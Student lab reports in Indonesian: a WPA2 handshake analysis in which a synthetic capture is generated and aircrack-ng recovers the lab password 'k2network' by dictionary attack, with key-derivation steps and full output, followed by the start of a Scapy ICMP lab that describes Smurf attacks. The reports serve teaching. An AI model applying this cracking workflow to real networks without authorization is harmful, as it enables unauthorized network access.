handshake-k2.cap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 65535)
```

Selanjutnya dilakukan pemeriksaan isi paket menggunakan:

```bash
tcpdump -r handshake-k2.cap -nn
```

Hasil pemeriksaan:

```text
reading from file handshake-k2.cap, link-type EN10MB (Ethernet), snapshot length 65535

tcpdump: pcap_loop: invalid packet capture length 2113755494, bigger than snaplen of 65535
```

## 2.3 Analisis Hasil Diagnosis

Berdasarkan kedua pemeriksaan tersebut, ditemukan beberapa permasalahan pada file capture awal.

**1. Ketidaksesuaian Link-Layer Type**

File memiliki struktur dasar pcap yang dapat dikenali, tetapi tipe link-layer tercatat sebagai Ethernet (`EN10MB`).

Sementara itu, Aircrack-ng membutuhkan informasi frame wireless IEEE 802.11 agar dapat menganalisis jaringan wireless dan paket EAPOL yang berkaitan dengan proses WPA/WPA2 handshake.

**2. Kerusakan Informasi Panjang Paket**

Hasil pemeriksaan `tcpdump` menunjukkan bahwa record paket pertama memiliki nilai panjang paket yang tidak valid, yaitu sekitar 2,1 GB.

Nilai tersebut melebihi ukuran snapshot yang ditentukan sebesar 65.535 byte. Akibatnya, paket tidak dapat diproses dengan benar.

**3. Tidak Ditemukan Informasi Handshake**

Karena struktur capture tidak sesuai dan paket tidak dapat dibaca, Aircrack-ng tidak berhasil menemukan jaringan maupun informasi handshake pada file awal.

**4. Indikasi File Template atau Placeholder**

Berdasarkan pemeriksaan tambahan terhadap `CASES-CHECKLIST.md` pada repository sumber, file `handshake-k1.cap` sampai `handshake-k10.cap` masih ditandai dengan status `❌ PERLU DIBUAT`.

Hal tersebut menjadi indikasi bahwa file capture yang tersedia pada repository merupakan placeholder atau belum merupakan hasil capture wireless yang valid.

## 2.4 Kesimpulan Diagnosis Awal

Berdasarkan hasil pemeriksaan, file capture awal belum dapat digunakan untuk analisis WPA2 karena terdapat ketidaksesuaian tipe link-layer dan kerusakan pada informasi paket.

Oleh karena itu, diperlukan capture pengganti yang memiliki struktur frame IEEE 802.11 serta informasi EAPOL yang dapat digunakan untuk proses analisis handshake.

---

# 3. PEMBUATAN CAPTURE PENGGANTI

## 3.1 Tujuan

Setelah file capture awal diketahui tidak valid, dilakukan pembuatan capture pengganti dengan nama `handshake-k2-demo.cap`.

Capture pengganti dibuat menggunakan skrip Python bernama `make_handshake.py` dengan tujuan menyediakan frame wireless yang memiliki struktur sesuai kebutuhan analisis WPA2 4-Way Handshake.

Capture tersebut terdiri dari tiga frame utama, yaitu:

1. Satu frame Beacon.
2. Satu frame EAPOL Message 1.
3. Satu frame EAPOL Message 2.

Frame Beacon digunakan untuk memberikan informasi mengenai jaringan wireless, sedangkan kedua frame EAPOL digunakan sebagai bagian dari proses autentikasi WPA2.

## 3.2 Parameter Capture

Capture pengganti dibuat menggunakan parameter berikut:

| Parameter | Nilai |
|---|---|
| SSID | `Lab-K2-WiFi` |
| BSSID (Access Point) | `00:11:22:33:44:55` |
| MAC Client | `66:77:88:99:aa:bb` |
| Jumlah Frame | 3 |
| Jenis Frame | 1 Beacon dan 2 EAPOL |
| Password Pengujian | `k2network` |

Kata sandi `k2network` merupakan kandidat yang tersedia dalam file `wordlist-k2.txt` dan digunakan untuk menguji keberhasilan proses pencocokan handshake.

## 3.3 Perhitungan Kriptografi WPA2

Agar proses pengujian menghasilkan informasi autentikasi yang sesuai, nilai ANonce, SNonce, dan MIC pada capture tidak dibuat sebagai kumpulan byte acak yang tidak saling berhubungan.

Nilai-nilai tersebut dihitung berdasarkan mekanisme kriptografi WPA2-PSK.

Proses pembentukan kunci secara umum melibatkan tahapan berikut:

**1. Pembentukan Pairwise Master Key (PMK)**

PMK dibentuk dari passphrase dan SSID menggunakan algoritma PBKDF2-HMAC-SHA1 dengan 4096 iterasi dan panjang keluaran 32 byte.

```text
PMK = PBKDF2-HMAC-SHA1(
    passphrase,
    SSID,
    4096 iterations,
    32 bytes
)
```

**2. Pembentukan Pairwise Transient Key (PTK)**

PTK dibentuk berdasarkan PMK, alamat MAC kedua perangkat, serta nilai nonce yang dihasilkan oleh Access Point dan client.

```text
PTK = PRF-384(
    PMK,
    "Pairwise key expansion",
    MAC_min || MAC_max || Nonce_min || Nonce_max
)
```

**3. Pembentukan Key Confirmation Key (KCK)**

KCK merupakan bagian awal dari PTK yang digunakan untuk menghitung Message Integrity Code.

```text
KCK = PTK[0:16]
```

**4. Perhitungan Message Integrity Code (MIC)**

MIC dihitung menggunakan KCK dan isi frame EAPOL Message 2 dengan field MIC dikosongkan atau diatur menjadi nol selama proses perhitungan.

```text
MIC = HMAC-SHA1(KCK, EAPOL Message 2)[0:16]
```

Dengan mekanisme tersebut, informasi autentikasi dalam capture pengganti memiliki hubungan kriptografi yang sesuai dengan parameter pengujian.

## 3.4 Hasil Pembuatan Capture

Capture pengganti disimpan dengan nama:

```text
handshake-k2-demo.cap
```

File tersebut kemudian digunakan sebagai capture pengujian dengan nama `handshake-k2.cap` pada proses analisis.

Dengan demikian, analisis selanjutnya menggunakan capture pengganti yang telah disiapkan, bukan file awal yang mengalami kerusakan struktur.

---

# 4. PROSES ANALISIS HANDSHAKE MENGGUNAKAN AIRCRACK-NG

## 4.1 Tujuan

Tahap ini merupakan proses utama pengujian kata sandi WPA2 menggunakan Aircrack-ng.

Pengujian dilakukan dengan metode *dictionary attack*, yaitu mencoba kandidat kata sandi yang terdapat dalam file wordlist dan melakukan pencocokan berdasarkan informasi autentikasi yang tersedia dalam capture.

Dalam praktikum ini digunakan dua file utama:

- `handshake-k2.cap`: file capture yang berisi informasi jaringan wireless dan EAPOL handshake.
- `wordlist-k2.txt`: daftar kandidat kata sandi yang digunakan dalam proses pengujian.

Seluruh proses dijalankan melalui Docker agar tools Aircrack-ng dapat digunakan tanpa perlu melakukan instalasi langsung pada sistem operasi Windows.

## 4.2 Perintah yang Digunakan

Perintah yang dijalankan melalui Windows PowerShell adalah:

```powershell
docker run --rm -v "${PWD}":/work uts-kali-tools aircrack-ng -w wordlist-k2.txt handshake-k2.cap
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker run` | Menjalankan container Docker baru |
| `--rm` | Menghapus container secara otomatis setelah proses selesai |
| `-v "${PWD}":/work` | Menghubungkan direktori kerja PowerShell ke direktori `/work` di dalam container |
| `uts-kali-tools` | Docker Image yang digunakan |
| `aircrack-ng` | Menjalankan aplikasi analisis WPA/WPA2 |
| `-w wordlist-k2.txt` | Menentukan file wordlist yang digunakan |
| `handshake-k2.cap` | Menentukan file capture yang dianalisis |

Direktori kerja host dihubungkan ke container menggunakan volume Docker sehingga file capture dan wordlist dapat diakses dari lingkungan pengujian.

## 4.3 Identifikasi Jaringan Wireless

Setelah perintah dijalankan, Aircrack-ng melakukan pembacaan terhadap file capture.

Hasil identifikasi awal:

```text
Reading packets, please wait...

Opening handshake-k2.cap

Read 3 packets.
```

Aircrack-ng kemudian menampilkan informasi jaringan yang berhasil ditemukan:

```text
#  BSSID              ESSID             Encryption

1  00:11:22:33:44:55  Lab-K2-WiFi       WPA (1 handshake)
```

Berdasarkan hasil tersebut, dapat diketahui bahwa:

- **BSSID:** `00:11:22:33:44:55`
- **ESSID:** `Lab-K2-WiFi`
- **Encryption:** WPA (1 handshake)
- **Jumlah paket yang dibaca:** 3 paket
- **Jumlah target potensial:** 1 jaringan

Meskipun tampilan Aircrack-ng menggunakan label `WPA`, analisis praktikum ini berfokus pada mekanisme WPA2 4-Way Handshake yang menjadi materi pengujian.

Informasi tersebut menunjukkan bahwa Aircrack-ng berhasil membaca capture pengganti dan mengenali satu jaringan wireless yang memiliki informasi handshake.

## 4.4 Proses Pengujian Wordlist

Setelah jaringan berhasil diidentifikasi, Aircrack-ng melanjutkan proses pengujian terhadap kandidat kata sandi dalam file `wordlist-k2.txt`.

Setiap kandidat diuji berdasarkan mekanisme pembentukan kunci dan pencocokan informasi autentikasi yang terdapat pada handshake.

Proses ini dilakukan secara offline karena tidak memerlukan koneksi langsung ke Access Point untuk mencoba setiap kandidat kata sandi.

Dengan demikian, proses analisis bergantung pada informasi yang tersimpan dalam file capture dan daftar kata sandi yang disediakan.

## 4.5 Hasil Pengujian

Berdasarkan hasil eksekusi Aircrack-ng 1.7, diperoleh output sebagai berikut:

```text
Reading packets, please wait...

Opening handshake-k2.cap

Read 3 packets.

#  BSSID              ESSID             Encryption

1  00:11:22:33:44:55  Lab-K2-WiFi       WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...

Opening handshake-k2.cap

Read 3 packets.

1 potential targets


                         Aircrack-ng 1.7


[00:00:00] 9/20 keys tested (404.53 k/s)

Time left: 0 seconds                         45.00%


                  KEY FOUND! [ k2network ]


Master Key    : 8E D7 71 5E 24 8C 1B DC 69 C1 F4 E2 9A 30 7A 07
                97 99 BB BF 15 81 FF 5B F6 CA 38 36 72 3D 95 8B


Transient Key : 25 FF C6 29 EE 8E C2 D1 78 CB 70 54 3E 42 FA 9B
                EC 67 67 51 14 A0 EF D2 E4 48 DF 54 9A 20 D7 B0
                15 94 CC 08 DF ED AF 45 E8 DF 3D 03 95 27 23 A6
                A6 60 6A 1F C1 90 B5 85 EB 61 89 B4 16 00 00 00


EAPOL HMAC   : 9B 66 0F 8E 19 3C 93 41 F0 00 65 BF 45 86 1D 3B
```

<badge color="success">KEY FOUND</badge>

**Kata sandi yang berhasil ditemukan adalah `k2network`.**

Hasil tersebut menunjukkan bahwa salah satu kandidat kata sandi dalam `wordlist-k2.txt` berhasil menghasilkan nilai autentikasi yang sesuai dengan informasi handshake pada file capture.

Aircrack-ng melaporkan bahwa 9 dari 20 kandidat telah diuji dengan kecepatan sekitar 404,53 kunci per detik ketika kata sandi berhasil ditemukan.

## 4.6 Analisis Hasil

Berdasarkan output yang diperoleh, terdapat beberapa hal penting yang dapat dianalisis.

**1. Capture berhasil dibaca**

Aircrack-ng berhasil membaca tiga paket yang terdapat dalam `handshake-k2.cap`. Hal ini menunjukkan bahwa capture pengganti dapat diproses oleh tools yang digunakan.

**2. Jaringan wireless berhasil diidentifikasi**

Sistem berhasil mengenali jaringan dengan ESSID `Lab-K2-WiFi` dan BSSID `00:11:22:33:44:55`.

**3. Informasi handshake berhasil dikenali**

Aircrack-ng mendeteksi satu informasi handshake yang dapat digunakan untuk proses pengujian kata sandi.

**4. Kata sandi berhasil ditemukan**

Pesan `KEY FOUND! [ k2network ]` menunjukkan bahwa Aircrack-ng berhasil menemukan kandidat kata sandi yang sesuai dengan informasi autentikasi dalam capture.

**5. Proses pengujian berhasil diselesaikan**

Pengujian dilakukan dengan kecepatan sekitar 404,53 kunci per detik dan kata sandi berhasil ditemukan sebelum seluruh kandidat dalam wordlist perlu diuji.

Dengan demikian, pengujian dictionary attack pada capture pengganti dinyatakan berhasil.

## 4.7 Dokumentasi Screenshot



**Gambar 1.** Hasil analisis file `handshake-k2.cap` menggunakan Aircrack-ng 1.7. Terlihat bahwa sistem berhasil membaca tiga paket, mengidentifikasi jaringan `Lab-K2-WiFi`, mendeteksi satu handshake, serta menemukan kata sandi `k2network`.

---

# 5. PENJELASAN WPA2 FOUR-WAY HANDSHAKE

## 5.1 Pengertian Four-Way Handshake

WPA2 4-Way Handshake merupakan proses pertukaran empat pesan antara Access Point (AP) dan perangkat client yang bertujuan membentuk serta mengonfirmasi kunci enkripsi untuk komunikasi jaringan wireless.

Proses ini dilakukan setelah perangkat client memiliki Pairwise Master Key (PMK) yang berasal dari proses autentikasi WPA2-Personal.

Dalam mekanisme WPA2-PSK, kata sandi jaringan tidak dikirimkan secara langsung melalui udara ketika proses handshake berlangsung.

Sebaliknya, kata sandi digunakan untuk membentuk PMK, yang selanjutnya digunakan bersama nilai nonce dan alamat MAC kedua perangkat untuk menghasilkan Pairwise Transient Key (PTK).

Proses 4-Way Handshake terdiri dari empat pesan yang dikirimkan secara bergantian antara Access Point dan client.

## 5.2 Message 1 — Access Point ke Client

**Arah komunikasi: AP → Client**

Pada tahap pertama, Access Point mengirimkan pesan pertama kepada perangkat client.

Pesan ini berisi nilai ANonce (*Authenticator Nonce*), yaitu nilai acak yang dihasilkan oleh Access Point.

ANonce digunakan oleh client bersama informasi lainnya untuk membentuk Pairwise Transient Key (PTK).

Setelah menerima Message 1, client menghasilkan SNonce (*Supplicant Nonce*) miliknya sendiri dan menggunakan kedua nilai nonce tersebut bersama PMK serta alamat MAC kedua perangkat untuk menghitung PTK.

PTK merupakan kunci sementara yang digunakan untuk melindungi komunikasi antara Access Point dan client.

**Informasi penting:**
- Pengirim: Access Point.
- Penerima: Client.
- Informasi utama: ANonce.
- Fungsi: Memberikan nilai nonce dari Access Point sebagai bagian dari proses pembentukan PTK.

## 5.3 Message 2 — Client ke Access Point

**Arah komunikasi: Client → AP**

Setelah menerima Message 1, client mengirimkan Message 2 kepada Access Point.

Pesan ini berisi nilai SNonce yang dihasilkan oleh client serta MIC (*Message Integrity Code*).

MIC dihitung menggunakan bagian dari PTK yang disebut KCK (*Key Confirmation Key*).

Melalui MIC, Access Point dapat memverifikasi bahwa client memiliki informasi kunci yang benar dan pesan yang dikirimkan tidak mengalami perubahan tanpa terdeteksi.

Pada tahap inilah informasi handshake dapat digunakan untuk pengujian kata sandi secara offline.

Aircrack-ng dapat mencoba kandidat kata sandi dari wordlist, membentuk PMK dan PTK untuk setiap kandidat, kemudian menghitung MIC dan membandingkannya dengan MIC yang terdapat pada informasi EAPOL.

Apabila hasil perhitungan cocok, kandidat tersebut dinyatakan sesuai dengan informasi autentikasi yang dianalisis.

**Informasi penting:**
- Pengirim: Client.
- Penerima: Access Point.
- Informasi utama: SNonce dan MIC.
- Fungsi: Memberikan nilai nonce client dan membuktikan kepemilikan kunci yang sesuai.

## 5.4 Message 3 — Access Point ke Client

**Arah komunikasi: AP → Client**

Setelah berhasil memverifikasi MIC dari Message 2, Access Point mengirimkan Message 3 kepada client.

Pesan ini berisi informasi konfirmasi mengenai kunci yang akan digunakan dalam komunikasi.

Access Point juga mengirimkan GTK (*Group Temporal Key*) yang telah dilindungi menggunakan mekanisme enkripsi berdasarkan kunci yang diturunkan dari PTK.

GTK digunakan untuk melindungi komunikasi broadcast dan multicast pada jaringan wireless.

Selain itu, Message 3 memiliki MIC untuk menjaga integritas pesan yang dikirimkan.

Pada tahap ini, Access Point juga memberikan instruksi kepada client untuk memasang kunci enkripsi yang telah disepakati.

**Informasi penting:**
- Pengirim: Access Point.
- Penerima: Client.
- Informasi utama: Konfirmasi PTK, GTK terenkripsi, dan MIC.
- Fungsi: Mengirimkan informasi kunci grup dan menginstruksikan pemasangan kunci enkripsi.

## 5.5 Message 4 — Client ke Access Point

**Arah komunikasi: Client → AP**

Message 4 merupakan pesan terakhir dalam proses WPA2 4-Way Handshake.

Pada tahap ini, client mengirimkan pesan konfirmasi kepada Access Point untuk menunjukkan bahwa informasi kunci telah diterima dan proses pemasangan kunci telah diselesaikan.

Pesan ini berfungsi sebagai acknowledgment atau konfirmasi akhir dari client.

Setelah seluruh pertukaran pesan selesai, Access Point dan client dapat menggunakan kunci enkripsi yang telah dibentuk untuk melindungi komunikasi jaringan.

PTK digunakan untuk komunikasi unicast antara Access Point dan client, sedangkan GTK digunakan untuk komunikasi broadcast dan multicast.

**Informasi penting:**
- Pengirim: Client.
- Penerima: Access Point.
- Informasi utama: Konfirmasi penerimaan dan pemasangan kunci.
- Fungsi: Menyelesaikan proses 4-Way Handshake.

## 5.6 Ringkasan Empat Langkah Handshake

| Tahap | Pengirim | Penerima | Informasi Utama | Fungsi |
|---|---|---|---|---|
| Message 1 | AP | Client | ANonce | Memulai proses pembentukan PTK |
| Message 2 | Client | AP | SNonce dan MIC | Mengirim nonce client dan bukti kepemilikan kunci |
| Message 3 | AP | Client | GTK terenkripsi dan MIC | Mengirim informasi kunci grup dan instruksi pemasangan kunci |
| Message 4 | Client | AP | Konfirmasi | Menyelesaikan proses handshake |

## 5.7 Hubungan Four-Way Handshake dengan Pengujian Aircrack-ng

Dalam pengujian WPA2 secara offline, informasi dari pertukaran EAPOL dapat digunakan untuk menguji kandidat kata sandi.

Informasi penting yang digunakan meliputi:

1. ANonce yang dihasilkan Access Point.
2. SNonce yang dihasilkan client.
3. Alamat MAC Access Point dan client.
4. MIC yang digunakan untuk memverifikasi integritas pesan.

Aircrack-ng menggunakan informasi tersebut untuk melakukan perhitungan kriptografi terhadap kandidat kata sandi dari wordlist.

Apabila kandidat kata sandi menghasilkan nilai autentikasi yang cocok dengan informasi pada capture, maka kata sandi tersebut dinyatakan berhasil ditemukan.

Pada praktikum ini, proses tersebut menghasilkan kata sandi:

```text
k2network
```

**Catatan:** Pengujian offline tidak memerlukan proses login berulang kali ke Access Point. Analisis dilakukan berdasarkan informasi handshake yang telah tersimpan di dalam file capture.

---

# 6. ANALISIS KEAMANAN DAN HASIL PRAKTIKUM

## 6.1 Analisis Keamanan WPA2

Berdasarkan praktikum yang telah dilakukan, dapat diketahui bahwa keamanan jaringan WPA2-Personal sangat bergantung pada kekuatan kata sandi yang digunakan.

Meskipun WPA2 menggunakan mekanisme kriptografi untuk melindungi proses autentikasi, kata sandi yang lemah atau mudah ditebak tetap berisiko ditemukan melalui pengujian kandidat secara offline apabila informasi handshake tersedia.

Penggunaan wordlist memungkinkan proses pengujian dilakukan secara sistematis terhadap sejumlah kandidat kata sandi.

Pada praktikum ini, kata sandi `k2network` berhasil ditemukan karena terdapat dalam daftar kandidat yang digunakan.

Hal ini menunjukkan bahwa penggunaan kata sandi yang mudah ditebak atau telah tersedia dalam daftar kata sandi umum dapat meningkatkan risiko terhadap keamanan jaringan wireless.

## 6.2 Risiko Keamanan

Beberapa risiko keamanan yang dapat diidentifikasi berdasarkan hasil praktikum adalah:

**1. Penggunaan Kata Sandi Lemah**

Kata sandi yang pendek, sederhana, atau mudah ditebak memiliki risiko lebih tinggi untuk ditemukan melalui metode dictionary attack.

**2. Kebocoran Informasi Handshake**

Apabila informasi handshake berhasil diperoleh oleh pihak yang tidak berwenang, informasi tersebut dapat digunakan sebagai dasar untuk melakukan pengujian kata sandi secara offline.

**3. Serangan Dictionary Attack**

Penggunaan wordlist memungkinkan penyerang mencoba berbagai kandidat kata sandi tanpa harus melakukan autentikasi langsung ke Access Point.

**4. Pengambilalihan Akses Jaringan**

Apabila kata sandi jaringan berhasil ditemukan, pihak yang tidak berwenang berpotensi memperoleh akses ke jaringan wireless sesuai dengan hak akses yang diberikan oleh jaringan tersebut.

## 6.3 Rekomendasi Keamanan

Untuk mengurangi risiko serangan terhadap jaringan wireless, beberapa langkah pengamanan yang dapat diterapkan adalah:

1. Menggunakan kata sandi dengan panjang yang memadai dan kombinasi karakter yang kuat.
2. Menghindari penggunaan kata sandi yang berkaitan dengan nama, tanggal lahir, atau informasi pribadi.
3. Mengganti kata sandi jaringan secara berkala apabila terdapat indikasi kebocoran.
4. Menggunakan WPA2-AES atau WPA3 apabila perangkat mendukungnya.
5. Menonaktifkan WPS apabila tidak diperlukan.
6. Memperbarui firmware Access Point secara berkala.
7. Membatasi akses ke jaringan wireless hanya kepada perangkat yang memiliki izin.
8. Melakukan pemantauan terhadap perangkat yang terhubung ke jaringan.

---

# 7. KESIMPULAN

Berdasarkan pelaksanaan Tugas 4 (Pertemuan 4) mengenai Analisis Handshake WPA2 pada Kasus 2 (`k2`), dapat disimpulkan bahwa proses analisis handshake berhasil dilakukan menggunakan Aircrack-ng 1.7 melalui lingkungan Docker.

Pada tahap awal, file `handshake-k2.cap` yang tersedia dari repository bank soal tidak dapat dianalisis karena memiliki ketidaksesuaian struktur capture. Pemeriksaan menggunakan perintah `file` dan `tcpdump` menunjukkan bahwa file tersebut menggunakan tipe link-layer Ethernet serta memiliki informasi panjang paket yang tidak valid.

Untuk melanjutkan pengujian, dibuat capture pengganti menggunakan skrip Python `make_handshake.py`. Capture tersebut disusun menggunakan frame Beacon dan EAPOL yang memiliki parameter kriptografi sesuai mekanisme WPA2-PSK.

Setelah capture pengganti digunakan, Aircrack-ng berhasil membaca tiga paket dan mengidentifikasi jaringan wireless dengan ESSID `Lab-K2-WiFi` serta BSSID `00:11:22:33:44:55`.

Hasil pengujian menunjukkan bahwa terdapat satu informasi handshake yang dapat dianalisis. Melalui proses dictionary attack menggunakan `wordlist-k2.txt`, Aircrack-ng berhasil menemukan kata sandi:

**`k2network`**

Keberhasilan tersebut dibuktikan melalui pesan `KEY FOUND!` pada hasil eksekusi Aircrack-ng.

Selain proses pengujian kata sandi, praktikum ini juga memberikan pemahaman mengenai empat tahapan WPA2 4-Way Handshake, yaitu Message 1, Message 2, Message 3, dan Message 4.

Dari keseluruhan pengujian, dapat dipahami bahwa keamanan jaringan wireless tidak hanya bergantung pada protokol enkripsi yang digunakan, tetapi juga pada kekuatan kata sandi dan pengelolaan keamanan jaringan.

Oleh karena itu, penggunaan kata sandi yang kuat, pembaruan perangkat jaringan, serta pemantauan keamanan secara berkala merupakan langkah penting untuk mengurangi risiko akses tidak sah terhadap jaringan wireless.

---

# 8. LAMPIRAN DAN DOKUMENTASI

## 8.1 Daftar File yang Digunakan

| No. | Nama File | Keterangan |
|---|---|---|
| 1 | `handshake-k2.cap` | File capture yang digunakan dalam analisis akhir |
| 2 | `handshake-k2-demo.cap` | Capture pengganti yang dibuat untuk pengujian |
| 3 | `wordlist-k2.txt` | Daftar kandidat kata sandi yang disediakan penguji |
| 4 | `make_handshake.py` | Skrip Python untuk membuat capture pengganti |
| 5 | `hasil.md` | Dokumentasi hasil praktikum |

## 8.2 Dokumentasi Screenshot


**Gambar 1.** Dokumentasi hasil pengujian menggunakan Aircrack-ng 1.7. Hasil menunjukkan bahwa file capture berhasil dibaca, jaringan wireless berhasil diidentifikasi, dan kata sandi `k2network` berhasil ditemukan.

---

<!-- Dokumentasi lengkap Tugas 5; sumber: tugas5/hasil.md -->

# TUGAS 5 (PERTEMUAN 5)
# ICMP DENGAN SCAPY — KASUS 2 (K2)

## IDENTITAS DAN PARAMETER LAB

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
| Pertemuan | Pertemuan 5 |
| Tugas | ICMP dengan Scapy |
| Kasus | Kasus 2 (`k2`) |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Lingkungan Pengujian | Docker Desktop |
| Docker Image | `uts-kali-tools` |
| Library | Scapy |
| Jaringan Docker | `lab-arp-k2` |
| Script Pengujian | `kirim_icmp.py` |

---

# 1. PENDAHULUAN

## 1.1 Tujuan Praktikum

Praktikum ini bertujuan untuk memahami mekanisme komunikasi menggunakan protokol Internet Control Message Protocol (ICMP) serta melakukan pengiriman dan analisis paket ICMP menggunakan library Scapy.

Scapy merupakan salah satu library Python yang digunakan untuk membuat, mengirimkan, menerima, dan menganalisis paket jaringan. Dengan menggunakan Scapy, pengguna dapat membentuk paket secara manual serta menentukan berbagai parameter protokol yang digunakan dalam komunikasi jaringan.

Pada praktikum ini, Scapy digunakan untuk mengirimkan paket ICMP Echo Request dari sebuah container Docker menuju container korban. Selanjutnya, respons yang diterima dianalisis berdasarkan nilai Time To Live (TTL) dan tipe pesan ICMP.

Selain melakukan pengujian komunikasi ICMP, praktikum ini juga membahas konsep Smurf Attack, yaitu salah satu jenis serangan Denial of Service (DoS) berbasis ICMP yang memanfaatkan teknik IP spoofing dan broadcast untuk menghasilkan efek amplifikasi lalu lintas jaringan.

Adapun tujuan khusus praktikum ini adalah:

1. Memahami fungsi protokol ICMP dalam komunikasi jaringan.
2. Memahami penggunaan library Scapy untuk membentuk dan mengirimkan paket ICMP.
3. Melakukan pengujian konektivitas antara container pengirim dan container korban.
4. Mengidentifikasi nilai TTL pada paket ICMP balasan.
5. Mengidentifikasi tipe pesan ICMP yang diterima.
6. Memahami mekanisme kerja Smurf Attack dan dampaknya terhadap jaringan.
7. Mengetahui langkah mitigasi untuk mengurangi risiko serangan berbasis ICMP.

## 1.2 Konsep Dasar ICMP

Internet Control Message Protocol (ICMP) merupakan protokol jaringan yang digunakan untuk mengirimkan pesan kontrol, informasi, dan laporan kesalahan dalam komunikasi IP.

ICMP sering digunakan dalam proses pemeriksaan konektivitas jaringan melalui utilitas seperti `ping` dan `traceroute`.

Salah satu jenis pesan ICMP yang umum digunakan adalah Echo Request dan Echo Reply.

- **ICMP Echo Request:** pesan yang dikirimkan oleh perangkat sumber untuk meminta respons dari perangkat tujuan.
- **ICMP Echo Reply:** pesan balasan yang dikirimkan oleh perangkat tujuan setelah menerima Echo Request.

Dalam komunikasi normal, perangkat sumber mengirimkan Echo Request kepada perangkat tujuan. Apabila perangkat tujuan menerima dan memproses permintaan tersebut, perangkat akan mengirimkan Echo Reply kembali kepada sumber.

Melalui proses ini, administrator dapat mengetahui apakah suatu perangkat dapat dijangkau melalui jaringan IP.

## 1.3 Konsep Dasar Scapy

Scapy merupakan library Python yang memungkinkan pengguna melakukan manipulasi paket jaringan secara fleksibel.

Scapy dapat digunakan untuk:

- Membuat paket IP dan ICMP secara manual.
- Menentukan alamat IP sumber dan tujuan.
- Mengirimkan paket melalui interface jaringan.
- Menerima dan membaca respons paket.
- Menganalisis informasi protokol yang terdapat pada paket jaringan.

Pada praktikum ini, Scapy digunakan melalui script `kirim_icmp.py` yang telah disediakan dalam direktori `kasus/k5-scapy`.

---

# 2. PERSIAPAN LINGKUNGAN PENGUJIAN

## 2.1 Topologi Pengujian

Pengujian dilakukan menggunakan lingkungan Docker yang telah dibuat pada praktikum sebelumnya.

Jaringan Docker yang digunakan bernama `lab-arp-k2`. Container korban yang digunakan pada pengujian sebelumnya memiliki alamat IP `172.18.0.2`.

Sementara itu, perintah pengujian dijalankan melalui container sementara menggunakan Docker Image `uts-kali-tools`.

Berikut merupakan informasi perangkat yang terlibat dalam pengujian berdasarkan hasil terminal:

| Perangkat | Identitas | IP Address | Peran |
|---|---|---|---|
| Container Pengirim | Container sementara Docker | `172.18.0.5` | Mengirim paket ICMP |
| Container Korban | `korban-k2` | `172.18.0.2` | Menerima dan membalas paket ICMP |

**Keterangan:**

1. Container pengirim menjalankan script Python `kirim_icmp.py` menggunakan Scapy.
2. Container korban merupakan tujuan pengiriman paket ICMP.
3. Kedua container terhubung melalui jaringan Docker `lab-arp-k2`.

Alamat IP `172.18.0.5` merupakan alamat sumber yang terlihat pada output pengujian. Karena container pengirim dijalankan tanpa nama khusus dan menggunakan opsi `--rm`, container tersebut bersifat sementara dan akan dihapus setelah proses selesai.

## 2.2 Persiapan File Praktikum

File yang digunakan dalam praktikum ini adalah:

| No. | Nama File | Fungsi |
|---|---|---|
| 1 | `kirim_icmp.py` | Script Python untuk mengirim paket ICMP menggunakan Scapy |
| 2 | `hasil.md` | Dokumentasi hasil praktikum |
| 3 | `01.png` | Screenshot hasil pengujian ICMP |

Script `kirim_icmp.py` berada di dalam direktori:

```text
kasus/k5-scapy/kirim_icmp.py
```

Direktori tersebut dihubungkan ke container Docker melalui volume agar script dapat dijalankan dari dalam lingkungan pengujian.

## 2.3 Pemeriksaan Parameter Pengujian

Sebelum menjalankan script, beberapa parameter harus diketahui terlebih dahulu, yaitu:

- Jaringan Docker yang digunakan: `lab-arp-k2`.
- Alamat IP korban: `172.18.0.2`.
- Direktori script: `kasus/k5-scapy`.
- Docker Image: `uts-kali-tools`.

Alamat IP korban diperoleh dari konfigurasi container yang telah dibuat pada praktikum sebelumnya.

Pada Windows PowerShell, alamat IP korban disimpan dalam variabel `$ipKorban` sehingga dapat digunakan kembali sebagai parameter ketika menjalankan script.

---

# 3. IMPLEMENTASI PENGIRIMAN ICMP MENGGUNAKAN SCAPY

## 3.1 Tujuan

Tahap ini merupakan proses utama praktikum, yaitu melakukan pengiriman paket ICMP Echo Request menggunakan Scapy dari container pengirim menuju container korban.

Pengujian dilakukan untuk memastikan bahwa paket ICMP dapat dikirimkan melalui jaringan Docker dan perangkat tujuan dapat memberikan respons.

Berbeda dengan perintah `ping` biasa yang menggunakan utilitas sistem operasi, pengujian ini menggunakan script Python sehingga proses pembentukan dan pengiriman paket dilakukan melalui library Scapy.

## 3.2 Perintah yang Digunakan

Perintah yang dijalankan melalui Windows PowerShell adalah:

```powershell
docker run --rm --network lab-arp-k2 -v "${PWD}/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py $ipKorban
```

Penjelasan setiap parameter:

| Parameter | Fungsi |
|---|---|
| `docker run` | Menjalankan container Docker baru |
